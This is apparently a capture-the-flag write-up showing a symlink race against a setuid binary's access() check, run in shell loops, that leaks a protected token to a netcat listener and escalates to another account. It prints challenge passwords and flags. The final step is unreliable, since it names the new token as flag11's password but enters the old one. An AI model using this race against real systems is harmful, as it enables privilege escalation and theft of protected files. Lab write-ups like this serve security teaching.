 In our home directory, we have one suid/guid executable, and one token file:
		>$ ls -l
		total 16
		-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
		-rw-------  1 flag10 flag10     26 Mar  5  2016 token

If we run the executable, we see that it expects a file, to send it to the host.
		>$ ./level10
		./level10 file host
			sends file to host if you have access to it

Using strings command on the executable:
		>$ strings level10
		%s file host
			sends file to host if you have access to it
		Connecting to %s:6969 ..
		Unable to connect to host %s

In a second terminal lets use Netcat to listen on this port:
		>$ nc 6969 -l
Back in the first terminal, if we create a file and send it to ourselves, it arrives in the second terminal.
		>$ echo "hi" > /tmp/hi
		>$ ./level10 /tmp/hi {LOCAL_LAN_IPv4_ADDRESS}
		Connecting to {LOCAL_LAN_IPv4_ADDRESS}:6969 .. Connected!
		Sending file .. wrote file!

To access the token, we find a potential weakness in the binary's use of `access`.
		>$ nm -u level10
			U access@@GLIBC_2.0
reading man of access() we found:
		Warning:  Using  access()  to  check if a user is authorized to, for example, open a file
			before actually doing so using open(2) creates a security hole, because  the  user  might
			exploit  the  short time interval between checking and opening the file to manipulate it.

We open the token through a symbolic link created with another file in our HOME. which means we automate the process of creating the symbolic link and calling `./level10` with `while` in our shell:
		>$ chmod 777 . && touch test
		>$ (while true; do ln -sf test tmp; ln -sf token tmp; done)&
		>$ while true; do ./level10 tmp {LOCAL_LAN_IPv4_ADDRESS}; done
Then when we listen we read the token:
		>$ nc 6969 -l
		woupa2yuojeeaaed06riuj63c
		>$ su flag10
		Password: woupa2yuojeeaaed06riuj63c
		Don't forget to launch getflag !
		>$ getflag
		Check flag.Here is your token : feulo4b72j7edeahuete3no7c

this token is also the password for user flag11:
		>$ su flag11
		Password: woupa2yuojeeaaed06riuj63c
		Don't forget to launch getflag !
		>$ getflag
		Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

Vulnerability:
Race hazard with sequenced call to a access and open -> Privilege escalation via symlink attack

Documentations:
* https://stackoverflow.com/questions/7925177/access-security-hole